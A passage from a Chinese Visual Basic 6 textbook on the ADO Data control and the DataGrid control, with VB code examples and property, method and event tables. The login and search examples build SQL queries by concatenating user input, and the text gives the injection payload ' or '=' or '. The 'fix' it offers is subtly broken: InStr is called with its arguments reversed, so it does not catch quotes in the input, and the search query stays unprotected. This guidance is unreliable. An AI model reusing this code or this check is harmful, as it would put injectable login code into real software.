移动行时如果超过记录集结尾，则触发 EndOfRecordset 事件，可以在该事件的处理过程中向记录集中添加记录。该事件的处理过程为：Private Sub Adodc1_EndOfRecordset(fMoreData As Boolean, adStatus As ADODB.EventStatusEnum, ByVal pRecordset As ADODB.Recordset)。对其中的几个参数做如下说明：

- **fMoreData 参数**：布尔型参数，在处理该事件期间有可能将新记录增加到记录集。在 EndOfRecord 返回前添加数据，然后将该参数设为 True 以指示记录集的新结尾。
- **adStatus 参数**：EventStatusEnum 状态值。当调用 EndOfRecord 时，如果引发事件的操作成功，将该参数设置为 adStatusOK。如果该方法无法请求取消引发该事件的操作，则设置成 adStatusCantDeny。在 EndOfRecord 返回前，将该参数设置为 adStatusUnwantedEvent，可避免后续的通知。
- **pRecordset 参数**：RecordSet 对象，发生该事件所针对的 Record。

### b）WillMove 事件和 MoveComplete 事件

WillMove 事件在挂起操作更改 RecordSet 中的当前位置前触发，而 MoveComplete 事件在 RecordSet 的当前位置发生更改后触发。WillMove 事件的处理过程是：Private Sub Adodc1_WillMove(ByVal adReason As ADODB.EventReasonEnum, adStatus As ADODB.EventStatusEnum, ByVal pRecordset As ADODB.Recordset)。MoveComplete 事件的处理过程是：Private Sub Adodc1_MoveComplete(ByVal adReason As ADODB.EventReasonEnum, ByVal pError As ADODB.Error, adStatus As ADODB.EventStatusEnum, ByVal pRecordset As ADODB.Recordset)。我们对其中的几个参数做一些说明：

- adReason 参数：EventReasonEnum 值，指定引起该事件的原因。
- pError 参数：Error 对象，说明当 adStatus 值为 adStatusErrorsOccurred 时所发生的错误，否则将不对它进行设置。
- adStatus 参数：EventStatusEnum 状态值。当调用 WillMove 时，如果引发该事件的操作成功，则该参数设置为 adStatusOK；如果该方法无法请求取消引发该事件的操作，则设置成 adStatusCantDeny。当调用 MoveComplete 时，如果引发事件的操作成功，则该参数设置为 adStatusOK；如果操作失败，则设置为 adStatusErrorsOccurred。在 WillMove 返回前，将该参数设置为 adStatusCancel 可请求取消挂起的操作；在 MoveComplete 返回前，将该参数设置为 adStatusUnwantedEvent 可避免后续的通知。

### 4.4.4 Ado Data 控件使用示例

我们先来看看怎样使用 Ado Data 控件浏览和增删记录。它跟 Data 控件的使用方法类似。先在窗体中绘制好控件，控件的基本布局如图 4-17 所示。


我们需要向窗体中加入一个 Ado Data 控件、4 个 TextBox、5 个按钮以及若干 Label 标签。接着设置 Ado Data 控件的属性。在窗体中选中 Ado Data 控件，右键查看属性（Ado Data Properties），出现属性页，如图 4-18 所示。


此时，我们来设置 Connection String，即使用连接字符串来连接到数据库。点击“Build”按钮，在出现的数据连接属性中选择“Microsoft JET 4.0 OLE DB Provider”，如图 4-19 所示。


单击“下一步”，设置“连接”选项，如图 4-20 所示。单击后面的浏览按钮可以选择数据库；如果数据库就在程序所在目录下，则只需要输入数据库的名称，例如“db1.mdb”。


> 提示：使用 Ado Data 控件可以直接连接 Access 2003 建立的数据库，而不必将它转换为 Access 97 格式。需要注意的是，Data 控件无法直接连接 Access 2003 建立的数据库，必须先将数据库转换为 Access 97 格式。

如果数据库设置了密码，则取消勾选“空白密码”，并在密码输入框中输入密码，此时可勾选“允许保存密码”。设置完毕，单击测试连接，如果连接成功，则单击“确定”，如图 4-21 所示。这个时候，编译器会自动生成一个连接字符串，如图 4-22 所示。


接着在 ADO Data 属性页中设置“RecordSource”属性，如图 4-23 所示。我们在 CommandType 选项中，选择 2-adCmdTable，在 Table Or Stored Procedure Name 选项中，选择一个数据表的名称，我们在前面建立了一个“Admin”表，此处选择“Admin”。如此一来，我们便设置好了 ADO Data 的各项属性。

下面将数据绑定到 TextBox 控件上，设置 TextBox 的属性。首先设置 Text1 的 DataSource 属性为 Adodc1，如图 4-24 所示。设置 Text1 的 DataField 属性为 ID，如图 4-25 所示。这样，就将 Text1 和数据库中的 ID 字段绑定了。使用同样的方法，我们可以将 Text2 和 Text3 分别与 UserName 和 PassWord 绑定。

下面为各个按钮添加代码，为“下一条”按钮添加如下代码：

```vb
Private Sub Command1_Click()
    Adodc1.Recordset.MoveNext        ' 移动到下一条记录
    If Adodc1.Recordset.EOF Then     ' 如果已经移动到了最后一条记录之后
        Adodc1.Recordset.MoveFirst   ' 移动到第一条记录
    End If
End Sub
```

为“上一条”按钮添加如下代码：

```vb
Private Sub Command2_Click()
    Adodc1.Recordset.MovePrevious    ' 移动到上一条记录
    If Adodc1.Recordset.BOF Then     ' 如果已经移动到了第一条记录之前
        Adodc1.Recordset.MoveLast    ' 移动到最后一条记录
    End If
End Sub
```

为增加和删除记录的按钮添加代码：

```vb
Private Sub Command3_Click()
    Adodc1.Recordset.AddNew          ' 添加新记录
End Sub

Private Sub Command4_Click()
    Adodc1.Recordset.Delete          ' 删除当前记录
    Adodc1.Refresh                   ' 强制重绘 Adodc 控件
End Sub
```

在使用 Refresh 方法之后，可以刷新 Text1、Text2 和 Text3 这些跟数据库绑定的控件中的内容。我们为“查找记录”按钮添加下面的代码：

```vb
Private Sub Command5_Click()
    Adodc1.CommandType = adCmdText   ' 设置 CommandType 为 2，即 adCmdText
    ' 设置查询的 SQL 语句
    Adodc1.RecordSource = "select * from Admin where UserName='" & Text4.Text & "'"
    Adodc1.Refresh                   ' 强制重绘 Adodc 控件
    ' 如果没有找到匹配的记录，则提示，并重新查询所有的记录，显示第一条
    If Adodc1.Recordset.EOF And Adodc1.Recordset.BOF Then
        MsgBox "没有找到指定的记录"
        Adodc1.RecordSource = "select * from Admin"
        Adodc1.Refresh
    End If
End Sub
```

要使用 SQL 语句查询数据库，首先应该设置 CommandType 属性的值为 2，即 adCmdText。`select * from Admin where UserName='" & Text4.Text & "'"` 这条语句的意思是从 Admin 表中查询 UserName 的值为 Text4 中内容的记录。请读者朋友们注意，在指定的值两边是有单引号！

`Adodc1.Recordset.EOF And Adodc1.Recordset.BOF` 语句表明光标既在第一条之前，也在最后一条记录之后，也就是记录不存在。通常我们都是使用这条语句来判断记录集中的记录数是否为 0。

到此，我们使用 ADO Data 控件绑定数据库就实现了。使用程序可以浏览和增删记录了，还可以查询指定的 UserName。

下面我们介绍一下使用循环语句列举出数据表中所有记录的方法。这里我们在一个 ListBox 中列出所有的用户名。在窗体中绘制一个 ADO Data 控件以及一个 ListBox 控件。然后在窗体的载入事件中添加相应的代码：

```vb
Private Sub Form_Load()
    ' 设置 Adodc 控件的 ConnectionString 属性，建立到数据库的连接
    Adodc1.ConnectionString = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & App.Path & "\db1.mdb"
    ' 设置 Adodc 的 RecordSource 属性，查询 Admin 表中的所有记录
    Adodc1.RecordSource = "select * from admin"
    Adodc1.Refresh
    While Not Adodc1.Recordset.EOF
        List1.AddItem Adodc1.Recordset.Fields("username").Value
        Adodc1.Recordset.MoveNext
    Wend
End Sub
```

我们循环将记录中 UserName 字段的值添加到 List1 中，直到 Recordset 的 EOF 属性为 True。这样，就可以把所有的记录都添加进去了。运行上面的代码，如图 4-26 所示。可以看到，所有的记录都添加到 List1 中了。

下面来示例使用数据库中的用户名和密码进行登录操作。我们让用户输入用户名和密码，然后通过查询数据库，以确定用户输入的该用户是否存在，若存在，密码是否正确。新建工程，在窗体中绘制一个 ADO Data 控件、两个 TextBox 控件及一个按钮，控件的基本布局如图 4-27 所示。

不需要为 Adodc 控件设置属性，直接为“登录”按钮添加代码即可：

```vb
Private Sub Command1_Click()
    ' 设置连接字符串，连接到数据库 db1.mdb
    Adodc1.ConnectionString = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & App.Path & "\db1.mdb"
    ' 从 Admin 表中查询指定的用户名
    Adodc1.RecordSource = "select * from admin where username='" & Text1.Text & "'"
    Adodc1.Refresh

    ' 如果用户名不存在，则给出提示
    If Adodc1.Recordset.EOF And Adodc1.Recordset.BOF Then
        MsgBox "对不起，你输入的用户名不存在!"
    Else
        ' 如果用户名存在，则判断密码是否正确
        Adodc1.RecordSource = "select * from admin where username='" & Text1.Text & "' and password='" & Text2.Text & "'"
        Adodc1.Refresh

        If Adodc1.Recordset.EOF And Adodc1.Recordset.BOF Then
            MsgBox "对不起，你输入的密码错误啦！"
        Else
            MsgBox "欢迎大哥归来！登录成功！"
        End If
    End If
End Sub
```

图 4-28 登录界面存在注入漏洞。

当然，很多时候，我们可以不用判断用户名是否存在的，这里只是作为示例，增加了判断用户名是否存在的语句。

读者朋友需要注意，这里可是能够注入的，也就是我们常说的后台登录页的注入漏洞。看看我们在用户名和密码处输入 `' or '=' or '`，单击按钮后如图 4-28 所示。

为了防止用户注入，可以在进行数据库查询之前判断输入的合法性，在 Command1 的单击事件前半部分添加代码：

```vb
' 判断输入合法性，如果存在单引号，则提示错误，并退出 Sub 过程
If InStr("'", Text1.Text) Or InStr("'", Text2.Text) Then
    MsgBox "大哥，你的输入不合法哦！", vbCritical
    Exit Sub
End If
```

## 4.5 DataGrid 控件

DataGrid 控件可以显示并允许对 Recordset 对象中代表记录和字段的一系列行和列进行数据操纵。DataGrid 控件看起来与 Grid 控件类似，但是，您可以设置 DataGrid 控件的 DataSource 属性为一个 Data 控件，以自动填充该控件，并且从 Data 控件的 Recordset 对象自动设置其列标头。这个 DataGrid 控件实际上是一个固定的列集合，每一列的行数都是不确定的。使用它可以很容易地浏览和修改数据表中的记录。它会以表格的形式展示数据表中的各条记录。

因为不是基本控件，我们需要先把它添加到工具箱中才能够使用。在工具箱上单击右键选择“部件”，勾选“Microsoft DataGrid Control 6.0”确定即可，这样就可以把 DataGrid 控件添加到工具箱中了。

下面我们先介绍基础的内容，也就是 DataGrid 控件的各项属性、方法和事件。这里大多数内容只做参考和了解，读者朋友们不一定全部都要记住。但对于表格外单独进行介绍的内容，还请大家清楚地认识。

### 4.5.1 DataGrid 控件的属性

DataGrid 控件的诸多属性请参考下面的表格，当然，你也可以直接看表格后重点介绍的内容：

| 属性名 | 功能描述 |
|---|---|
| AddNewMode | 返回或设置一个值，描述当前单元关于网格的 AddNew 行的位置。运行时只读，设计时不可用。 |
| Align | 返回或设置一个值，确定对象是否可在窗体上以任意大小、任意位置显示，或显示在窗体的顶部、底端、左边或右边；而且自动改变大小以适合窗体的宽度。 |
| AllowAddNew | 返回或设置一个值，指出用户是否能够向与 DataGrid 控件连接的 Recordset 对象中添加新记录。 |
| AllowArrows | 设置或返回一个值，该值决定控件是否用箭头键对网格定位。 |
| AllowDelete | 返回或设置一个值，指出用户能否从与 DataGrid 控件连接的 Recordset 对象中删除记录。 |
| AllowRowSizing | 返回或设置一个值，指示用户能否在运行时重置 DataGrid 控件的行或 Split 对象的大小。 |
| AllowUpdate | 返回或设置一个值，指示用户能否修改 DataGrid 控件中的数据。 |
| Appearance | 返回或设置 MDIForm 或 Form 对象上的控件在设计时的绘图风格。在运行时是只读的。 |
| ApproxCount | 返回在网格中的行号的近似值。 |
| BackColor | 返回或设置对象的背景颜色。 |
| Bookmark | 返回或设置非绑定 DataGrid 控件中 RowBuffer 对象内部指定行的书签。 |
| Caption | 确定显示在控件中还是附在控件之后的文本。 |
| Col | 返回或设置 DataGrid 控件中的活动单元，设计时不可用。 |
| ColumnHeaders | 返回或设置一个值，指示是否在 DataGrid 控件中显示列标题。 |
| Container | 返回或设置 Form 上控件的容器。在设计时不能使用。 |
| CurrentCellModified | 设置或返回当前单元的修改状态。在设计时不可用。 |
| CurrentCellVisible | 设置或返回当前单元的可见性。在设计时不可用。 |
| DataChanged | 返回或设置一值，指出被绑定的控件中的数据已被某进程改变，而不获取当前记录的数据。在设计时不可用。 |
| DataFormats | 设置或返回 StdDataFormat 对象，一个被绑定对象将附加到它。在设计时或运行时都可读写。 |
| DefColWidth | 返回或设置一个值，指示 DataGrid 控件中所有列的缺省宽度。 |
| DragIcon | 返回或设置图标，它将在拖放操作中作为指针显示。 |
| DragMode | 返回或设置一个值，确定在拖放操作中所用的是手动还是自动拖动方式。 |
| EditActive | 设置或返回当前单元的编辑状态。在设计时不可用。 |
| FirstRow | 返回或设置一个值，包含 DataGrid 控件或 Split 对象中第一个可见行的书签。在设计时不可用。 |
| Font | 返回一个 Font 对象。 |
| HeadFont | 返回或设置一个值，指示在 DataGrid 控件列标题中使用的字体。 |
| HeadLines | 返回或设置一个值，指示显示在 DataGrid 控件标题中的列标题中文本行数。 |
| Height | 返回或设置对象的维数或 DataGrid 控件 Columns 对象的宽度。对于 Printer 和 Screen 对象，在设计时不可用。 |
| HelpContextID | 为一个对象返回或设置一个相关联上下文的编号。它被用来为应用程序提供上下文有关的帮助。 |
| hWnd | 返回窗体或控件的句柄。 |
| hWndEditor | 通过 Microsoft Windows 操作环境返回 DataGrid 控件编辑窗口的唯一窗口句柄。在运行时不可用。 |
| Index | 返回或设置唯一标识控件数组中某一控件的数。只有当控件是控件数组的一部分时，才可用该属性。 |
| Left | 返回或设置对象内部的左边与它的容器的左边之间的距离。 |
| LeftCol | 返回或设置一个整数，表示 DataGrid 控件最左端的可见列。该属性在设计时是只读的。 |
| MarqueeStyle | 设置或返回 DataGrid 控件或 Split 对象的字幕样式。 |
| RecordSelectors | 返回或设置一个值，指示记录选择器是否被显示在 DataGrid 控件或 Split 对象中。 |
| Row | 返回或设置 DataGrid 控件中的活动单元，设计时不可用。 |
| RowDividerStyle | 返回或设置一个值，指定画在选定的 DataGrid 控件的行之间的边框样式。 |
| RowHeight | 返回或设置 DataGrid 控件中所有行的高。RowHeight 总是使用与 DataGrid 控件容器相同的度量单位。 |
| SelBookmarks | 返回一个在 DataGrid 控件中所有选定记录的书签集合。 |
| SelEndCol | 右边最后被选中的列。 |
| SelStartCol | 左边第一个被选中的列。 |
| SelLength | 返回或设置所选择的字符数。 |
| SelStart | 返回或设置所选择文本的起始点；如果没有文本被选中，则指出插入点的位置。 |
| SelText | 返回或设置包含当前所选择文本的字符串；如果没有字符被选中，则为空长度字符串（""）。 |
| Split | 设置或返回当前拆分的索引。在设计时不可用。 |
| Splits | 返回 Split 对象的集合。在设计时不可用。 |
| TabAcrossSplits | 设置或返回 Tab 键和箭头键在拆分边缘处的性能。 |
| TabAction | 设置或返回一个值，该值定义了 Tab 键的行为。 |
| Tag | 返回或设置一个表达式用来存储程序中需要的额外数据。与其他属性不同，Tag 属性值不被 Visual Basic 使用；可以用该属性来标识对象。 |
| Text | 返回或设置包含在对象中的文本。 |
| ToolTipText | 返回或设置一个工具提示。 |
| Top | 返回或设置对象的内顶部和它的容器的顶边之间的距离。 |
| VisibleCols | 返回或设置一个值，指示 DataGrid 控件中可见列数。在设计时不可用，且在运行时是只读的。 |
| VisibleRows | 返回一个值，指示 DataGrid 控件中可见行数。该属性在运行时是只读的。 |
| WhatsThisHelpID | 返回或设置一个值。该值决定上下文敏感的帮助是否使用由 Windows 95 Help 提供的“这是什么”弹出式窗口或主 Help 窗口。该值在运行时为只读状态。 |
| Width | 返回或设置对象的维数，或 DataGrid 控件 Columns 对象的宽度。对于 Printer 和 Screen 对象，在设计时不可用。 |
| WrapCellPointer | 设置或返回一个值，决定箭头键的行为。 |

上面的表格在读者朋友不清楚的时候可以查阅。下面笔者对其中的几个属性做一些说明。

### a）AddNewMode 属性

该属性返回一个值，描述当前单元关于网格的 AddNew 行的位置。运行时只读，设计时不可用。通过该属性可以确定是否能够添加新的记录到与 DataGrid 控件连接的 Record 对象中。它的基本形式是：DataGrid 控件名.AddNewMode。AddNewMode 属性返回以下一个值：

| 常数 | 值 | 描述 |
|---|---:|---|
| dbgNoAddNew | 0 | 当前单元不在最后一行，没有 AddNew 操作，被挂起。 |
| dbgAddNewCurrent | 1 | 当前单元在最后一行，但没有 AddNew 操作，被挂起。 |
| dbgAddNewPending | 2 | 当前单元的下一行是最后一行，作为挂起 AddNew 操作的结果，通过网格的用户界面可以让用户进行初始化，或通过代码把 Value 或 Text 的列属性作为设置结果。 |

### b）AllowAddNew 属性

返回或设置一个值，指出用户是否能够向与 DataGrid 控件连接的 Recordset 对象中添加新记录。它的基本形式是：DataGrid 控件名.AllowAddNew [= Value]。Value 的设置值为：

| 设置 | 描述 |
|---|---|
| True | 用户可以向与 DataGrid 控件连接的 Recordset 对象中添加记录。 |
| False | 用户不能向与 DataGrid 控件连接的 Recordset 对象中添加记录。 |

> **说明：**如果 AllowAddNew 属性为 True，则在 DataGrid 控件中显示的最后一行被留作空白以允许用户输入新记录。如果 AllowAddNew 属性为 False，则无空白行显示，用户无法定位进行输入。即使 AllowAddNew 属性为 True，Recordset 也可能不允许插入。在此情况下，若用户试图添加记录就会产生错误提示。

### c）AllowArrows 属性

设置或返回一个值，该值决定控件是否用箭头键对网格定位。它的基本形式是：DataGrid 控件名.AllowArrows [= Value]。Value 的设置值为：

| 设置值 | 描述 |
|---|---|
| True | （缺省值）可用箭头键在同一行中从一个单元移动到另一个单元。 |
| False | 左箭头键和右箭头键将把焦点从一个控件移到另一个控件，但不能用来在单元之间移动。 |

> **说明：**当把该属性设置为 True 时，不能用箭头键移动到 DataGrid 控件之外。如果把 WrapCellPointer 属性也设置为 True，则箭头键会在行的边缘上自动换行，并且可用箭头键对整个网格定位。

### d）AllowDelete 属性

返回或设置一个值，指出用户能否从与 DataGrid 控件连接的 Recordset 对象中删除记录。当该属性为 True 时，用户可以从与 DataGrid 控件连接的 Recordset 对象中删除记录；而当其为 False 时，用户不能从与 DataGrid 控件连接的 Recordset 对象中删除记录。使用 AllowDelete 属性可以防止用户在 Recordset 中通过与 DataGrid 控件的交互过程删除记录。对于 DataGrid 控件，即使 AllowDelete 属性为 True，Recordset 也可能不允许删除。在此情况下，若用户试图删除记录就会产生错误。

> **注意：**从 DataGrid 控件中删除一个记录之后，您应该对其使用 Refresh 方法，强迫 DataGrid 更新。否则，尽管从下层记录集中删除了一个记录，记录将仍然在 DataGrid 中显示。

### e) AllowRowSizing 属性

返回或设置一个值，指示用户能否在运行时重置 DataGrid 控件的行或 Split 对象的大小。当该属性的值为 True 时，行的大小可以被用户改变。

> **说明：**如果 AllowRowSizing 属性为 True，则当鼠标指针定位在记录选择器之间的分界线上时，会变为双向箭头（大小为 NS），且用户可以通过拖动变更行的大小。行大小的任何改变都将引发一个 RowResize 事件。DataGrid 控件的所有行总是具有相同的高度，这一高度由 RowHeight 属性确定。即使 AllowRowSizing 属性为 False，行的高度也仍可用 RowHeight 属性以编程方式改变。

### f) AllowUpdate 属性

返回或设置一个值，指示用户能否修改 DataGrid 控件中的数据。当该属性的值为 True 时，用户可以修改 DataGrid 控件中的数据。当 AllowUpdate 属性为 False 时，用户仍然可以通过 DataGrid 控件进行滚动并选择数据，但不能改变任何值，所有改变网格中数据的操作都会被忽略。也可以使用 Column 对象属性使 DataGrid 控件的单个列成为只读，但 AllowUpdate 属性设置优先于列设置值（不改变列设置值）。

> **注意：**即使 DataGrid 控件的 AllowUpdate 为 True，Recordset 对象也可能不允许更新。在此情况下，当用户试图改变记录时会发生一个可捕获的错误。

### g) Col 属性和 Row 属性

返回或设置 DataGrid 控件中的活动单元，设计时不可用。用这些属性来指定 DataGrid 控件中的某一单元，或在选定区域内查找哪一行或列含有活动单元。行和列从 0 开始计数，行从顶部开始而列从左边开始计数。运行时设置这些属性不会改变所选单元。用 SelEndCol、SelStartCol、SelEndRow 和 SelStartRow 属性来指定选择区域。其基本形式是：

```vb
DataGrid控件名.Col [= number]
DataGrid控件名.Row [= number]
```

### h) ColumnHeaders 属性

返回或设置一个值，指示是否在 DataGrid 控件中显示列标头。当该属性为 True 时，会显示 DataGrid 控件的列标头；为 False，则不显示。

### i) CurrentCellModified 属性

设置或返回当前单元的修改状态，设计时不可用。它的值是一个 Boolean 值：当其为 True 时，表明正在进行编辑，用户已修改当前单元（由 Bookmark 和 Col 属性指定）；当其为 False 时，表明尚未修改该单元，或未进行编辑。可用该属性取消用户对当前文本所做的任何改动。例如，可对一个功能键编程，放弃用户所做改动（类似 ESC 键）；在网格的 KeyDown 事件中捕获键码，并把 CurrentCellModified 设置为 False。这会把当前单元改回该列原来的内容。

### j) EditActive 属性

设置或返回当前单元的编辑状态，设计时不可用。它的值是一个 Boolean 值：当其为 True 时，表明正在编辑当前单元；当其为 False 时，则表明未进行编辑。如果网格不在编辑模式下，把 EditActive 设置为 True 将开始对当前单元进行编辑，将插入符定位到单元末尾并触发 ColEdit 事件。如果网格已在编辑模式下，则把 EditActive 设置为 False，此时将退出编辑模式。如果已对单元进行修改，则将触发下列事件：BeforeColUpdate、AfterColUpdate 和 AfterColEdit。为完全取消编辑，可先把 CurrentCellModified 属性设置为 False，再把 EditActive 属性设置为 False。

### k) FirstRow 属性

返回或设置一个值，包含 DataGrid 控件或 Split 对象中第一个可见行的书签，设计时不可用。对 DataGrid 控件，设置 FirstRow 属性将导致网格滚动，使特定行成为最顶层行。如果网格包含多个拆分，则最顶层行在每个拆分中都改变，即使拆分具有不同的 ScrollGroup 属性设置值时也如此。对 Split 对象，FirstRow 属性中的设置使指定行只对该拆分变成最顶层行。其基本形式是：

DataGrid控件名.FirstRow [= Value]

其中 Value 是字符串表达式，包含相应于 DataGrid 控件或 Split 对象中第一个可见行的书签。

### l) LeftCol 属性

返回或设置一个整数，表示 DataGrid 控件最左端的可见列。该属性在设计时是只读的，缺省值是 0。

### m) RowHeight 属性

返回或设置 DataGrid 控件中所有行的高度。RowHeight 总是使用与 DataGrid 控件容器相同的度量单位。在运行时，通过将鼠标指针放在行间网格线上并拖动鼠标，能够改变任何行的 RowHeight。

### n) SelEndCol、SelStartCol、SelEndRow、SelStartRow 属性

为一组连续单元范围返回或设置第一或最后的行或列，设计时不可用。SelEndCol 为右边最后被选中的列，SelStartCol 为左边第一个被选中的列，SelEndRow 为最后被选中的行，SelStartRow 为第一个被选中的行。可在代码中使用这些属性来选择 DataGrid 控件的特定区域，或返回所选区域的大小。SelStartCol 和 SelStartRow 一起使用可指定选中范围左上角处的单元；SelEndCol 和 SelEndRow 一起使用可指定选中范围右下角处的单元。要指定一个单元而不改变当前选择，使用 Col 和 Row 属性。SelStartCol 和 SelEndCol 的缺省值是 -1。

### o) VisibleCols 属性和 VisibleRows 属性

VisibleCols 属性返回或设置一个值，指示 DataGrid 控件中可见列数。VisibleRows 属性返回一个值，指示 DataGrid 控件中可见行数。这两个属性在运行时是只读的。

### 4.5.2 DataGrid 控件的方法

DataGrid 控件的几个方法请参考下面的表格：

| 方法名 | 功能描述 |
|---|---|
| CaptureImage | 返回网格在当前状态下显示的被捕获图像。 |
| ClearFields | 恢复缺省的网格布局。 |
| ClearSelCols | 撤消对拆分中所有列所做的选择。如果未选择列，则不做任何事情。 |
| ColContaining | 返回包含指定 (X) 坐标值的 DataGrid 控件的列的 ColIndex 值。不支持命名参数。 |
| Drag | 用于除 Line、Menu、Shape、Timer 或 CommonDialog 控件之外的任何控件的开始、结束或取消拖动操作。不支持命名参数。 |
| GetBookmark | 对与 DataGrid 控件中当前行相关的某一行，返回一个包含书签的值。不支持命名参数。 |
| HoldFields | 设置当前列/字段布局作为自定义布局。 |
| Move | 用以移动 MDIForm、Form 或控件。不支持命名参数。 |
| Rebind | 重新生成 DataGrid 控件属性和列。不支持命名参数。 |

- **RowBookmark**：对 DataGrid 控件中的可见行，返回一个包含书签的值。不支持命名参数。
- **RowContaining**：返回一个与 DataGrid 控件指定纵坐标（Y）的行号相对应的值。不支持命名参数。
- **RowTop**：返回一个包含 DataGrid 控件指定行顶部纵坐标（Y）的值。不支持命名参数。
- **Scroll**：在一个简单操作中水平或垂直地滚动 DataGrid 控件。不支持命名参数。
- **SetFocus**：将焦点移至指定的控件或窗体。
- **ShowWhatsThis**：显示 Windows 95 Help 所提供的“这是什么”弹出式窗口，使用 help 文件中选定的一个主题。
- **SplitContaining**：返回包含一对指定坐标的拆分的 Index 值。
- **ZOrder**：将指定的 MDIForm、Form 或控件放置在其图层 z 顺序的前端或后端。不支持命名参数。

### a) CaptureImage 方法

返回网格在当前状态下显示的被捕获图像。可以将捕获图像放在 PictureBox 控件中显示。其基本形式是：

DataGrid控件名.CaptureImage

下列代码用 CaptureImage 方法将 DataGrid 控件的快照赋值给 PictureBox 控件：

Picture1.Picture = DataGrid1.CaptureImage

CaptureImage 方法获得的是源文件类型图像，所以应将图像大小调整到其容器大小。

### b) ClearFields 方法

该方法用于恢复缺省网格布局（具有两个空白列），使后面的 Rebind 操作自动从（可能已改变的）数据源导出新列绑定。可以调用 HoldFields 方法来取消网格自动布局行为。

### c) ClearSelCols 方法

该方法用于撤消对拆分中所有列所做的选择。如果未选择列，则不做任何事情。如果网格包含多个拆分，则调用其 ClearSelCols 方法与调用当前拆分的 ClearSelCols 方法效果相同。可由 DataGrid 控件的 Split 属性得到当前拆分索引。用 SelStartCol 和 SelEndCol 属性来决定拆分的当前列选定范围。

### d) ColContaining 方法和 RowContaining 方法

ColContaining 方法返回包含指定（X）坐标值的 DataGrid 控件列的 ColIndex 值，不支持命名参数。RowContaining 方法返回一个与 DataGrid 控件指定纵坐标（Y）行号相对应的值，不支持命名参数。其基本形式是：

```vb
DataGrid控件名.ColContaining coordinate
DataGrid控件名.RowContaining coordinate
```

其中 coordinate 参数是必需的，它是一个数值表达式，指定基于容器坐标系统的横向值（X 值）或纵向值（Y 值）。

### e) GetBookmark 方法

对与 DataGrid 控件中当前行相关的某一行，返回一个包含书签的值。不支持命名参数。基本形式是：

DataGrid控件名.GetBookmark Value

其中参数 Value 是必需的，它确定与当前行的 DataGrid 控件相关的行位置，可以是下面的设置值：

| 设置值 | 描述 |
|---|---|
| 0 | 返回当前行的书签，与 DataGrid1.Bookmark 相同。 |
| 1 | 返回当前行之后一行的书签。 |
| -1 | 返回当前行之前一行的书签。 |
| n | 返回与基于 (DataGrid1.Row+n) 的当前行相关行的书签。 |

> 说明：GetBookmark 方法返回的值可能与 RowBookmark 方法有很大差异，因为当前行可能不是可见的。

### f) RowBookmark 方法

对 DataGrid 控件中的可见行，该属性返回一个包含书签的值。不支持命名参数。其基本形式是：

DataGrid控件名.RowBookmark.Value

参数 Value 是必需的，它是一个整数，其值范围为 0 到 DataGrid 控件 VisibleRows 属性设置值减 1。

> **说明：**RowBookmark(0) 返回的书签与 DataGrid 控件的 FirstRow 属性相同。正像 DataGrid 控件 Bookmark 属性所定义的，如果当前行不是可见的，那么当前行有可能不能通过这一方法返回。  
> **注意：**RowBookmark 返回的书签将不被保存，因为其值会在行成为 DataGrid 控件可见行时发生变化。

### 4.5.3 DataGrid 控件的事件

DataGrid 控件的事件情况参考下面的表格：

| 事件名 | 描述 |
|---|---|
| AfterColEdit | 在完成网格单元中的编辑之后出现。 |
| AfterColUpdate | 在数据从 DataGrid 控件中的一个单元格移动到该控件的复制缓冲区后被触发。 |
| AfterDelete | 当用户在 DataGrid 控件中删除一条选定记录后被触发。 |
| AfterUpdate | 修改过的数据已经从 DataGrid 控件中写到数据库后被触发。 |
| BeforeColEdit | 仅在键入字符而进入编辑模式之前出现该事件。 |
| BeforeColUpdate | 在一个单元内编辑完成之后，而数据从单元移动到 DataGrid 控件复制缓冲区之前被触发。 |
| BeforeDelete | 发生在 DataGrid 控件中选定记录被删除之前。 |
| BeforeInsert | 出现在向 DataGrid 控件中插入一条记录之前。 |
| BeforeUpdate | 发生在数据从 DataGrid 控件移动到控件复制缓冲区之前。 |
| ButtonClick | 在单击当前单元的内部按钮时出现该事件。 |
| Change | 指示一个控件的内容已经改变。 |
| Click | 在对象上按下并释放鼠标按钮时发生；也会发生在控件值改变时。 |
| ColEdit | 在键入字符、使单元第一次进入编辑模式时出现该事件。 |
| ColResize | 当用户调整 DataGrid 控件某列大小时发生。 |
| DblClick | 当在对象上按下和释放鼠标按钮并再次按下和释放鼠标按钮时发生。 |
| DragDrop | 在一个完整拖放动作完成时（将控件拖动到对象上并释放鼠标按钮），或使用 Drag 方法且其 action 参数设置为 2（Drop）时发生。 |
| DragOver | 在拖放操作进行时发生。可监控鼠标指针在有效目标上的进入、离开或停顿。鼠标指针位置决定接收此事件的目标对象。 |
| Error | 该事件由于数据访问错误而出现，并且是在没有执行 Visual Basic 代码时产生此错误。 |
| HeadClick | 用户单击 DataGrid 控件指定列标题时发生。 |
| MouseDown | 按下鼠标按钮时发生。 |
| MouseMove | 移动鼠标时发生。 |
| MouseUp | 释放鼠标按钮时发生。 |
| OnAddNew | 在用户操作调用 AddNew 时出现。 |
| RowColChange | 当前单元改变为不同单元时发生。 |
| RowResize | 当用户调整 DataGrid 控件中的行尺寸时发生。 |
| SelChange | 当用户选定不同范围的行或列时出现。 |
| SplitChange | 当前单元变为另一个拆分中的不同单元时出现。 |
| Validate | 在焦点转换到第二个控件之前发生，此时该控件 CausesValidation 属性值设置为 True。 |

### a) AfterColEdit 事件和 AfterColUpdate 事件

AfterColEdit 事件在完成网格单元编辑后触发；AfterColUpdate 事件在数据从 DataGrid 控件单元格移动到该控件复制缓冲区后触发。这两个事件的处理过程如下：

```vb
Private Sub DataGrid控件名_AfterColEdit([index As Integer,] ByVal colindex As Integer)
Private Sub DataGrid控件名_AfterColUpdate([index As Integer,] colindex As Integer)
```

参数 Index 是可选的整数，用来标识控件数组中的一个控件。参数 colindex 用来标识控件中列的整数。当用户完成在 DataGrid 控件单元中的编辑（如在同一行转到另一列、按 Enter 键，或者控件失去焦点）时，BeforeColUpdate 事件将先执行；除非被取消，否则该单元中的数据将移到控件复制缓冲区中。一旦移动，就执行 AfterColUpdate 事件。

### b) AfterDelete 事件、AfterInsert 事件和 AfterUpdate 事件

当用户在 DataGrid 控件中删除一条选定记录后触发 AfterDelete 事件。当用户在 DataGrid 控件中插入一条新记录后触发 AfterInsert 事件。修改过的数据已经从 DataGrid 控件中写到数据库后触发 AfterUpdate 事件。这几个事件的处理过程是：

```vb
Private Sub object_AfterDelete([index As Integer,] colindex As Integer)
Private Sub object_AfterInsert(index As Integer)
Sub object_AfterUpdate(index As Integer)
